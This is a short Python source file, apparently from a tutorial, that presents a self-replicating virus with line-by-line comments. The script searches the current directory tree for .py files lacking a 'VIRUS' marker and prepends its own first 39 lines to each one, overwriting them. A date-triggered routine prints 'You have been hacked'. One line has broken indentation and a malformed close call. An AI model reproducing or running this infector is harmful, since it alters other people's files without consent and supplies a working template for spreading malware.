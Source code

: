 # Tells the computer to use python3 three to run the script
#!/usr/bin/python3
# Import os module
import os
# Import Determine Module
import datetime
# Set the variable Signatur to Virus
SIGNATURE = "VIRUS"
# used to locate the path of the file
def locate(path):
    files_targeted = []
    filelist = os.listdir(path)
    for fname in filelist:
        if os.path.isdir(path+"/"+fname):
            files_targeted.extend(locate(path+"/"+fname))
        elif fname[-3:] == ".py":
            infected = False
            for line in open(path+"/"+fname):
                if SIGNATURE in line:
                    infected = True
                    break
            if infected == False:
                files_targeted.append(path+"/"+fname)
   # This returns the list of files_targeted
    return files_targeted
# The def infect(files_targeted): function is used to infect the files in the list of files_targeted
def infect(files_targeted):
    virus = open(os.path.abspath(__file__))
    virusstring = ""
    for i,line in enumerate(virus):
        if 0 <= i < 39:
            virusstring += line
   
    # This closes the file    
virus.close
    for fname in files_targeted:
        f = open(fname)
        temp = f.read()
        f.close()
        f = open(fname,"w")
        f.write(virusstring + temp)
        f.close()

# The def detonate(): function is used to detonate the virus
def detonate():
    if datetime.datetime.now().month == 5 and datetime.datetime.now().day == 9:
# This prints the message
        print("You have been hacked")

# The final three lines of code are used to call the functions.
files_targeted = locate(os.path.abspath(""))
infect(files_targeted)
detonate()
